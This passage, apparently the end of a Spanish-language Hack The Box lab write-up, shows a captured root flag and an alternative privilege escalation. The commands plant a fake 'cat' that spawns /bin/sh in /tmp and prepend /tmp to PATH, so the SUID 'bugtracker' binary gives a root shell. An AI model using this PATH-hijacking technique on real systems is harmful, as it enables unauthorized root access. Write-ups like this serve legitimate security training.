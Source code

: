 >af13b0bee69f8a877c3faf667f7beacf

Submit root flag

[achivement](https://labs.hackthebox.com/achievement/machine/2336390/288)

Otra forma que más tarde encontré de explotarlo está basada en que parece que cat se llama sin indicar su ruta absoluta, con lo cual podemos truncar dicha ruta para el usuario actual y obtener una shell cuando lancemos bugtracker

``` shell
export PATH=/tmp:$PATH
cd /tmp
echo '/bin/sh' > cat
chmod +x cat
```

``` shell
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
---------------

whoami
root
cd /root
ls
reports  root.txt
```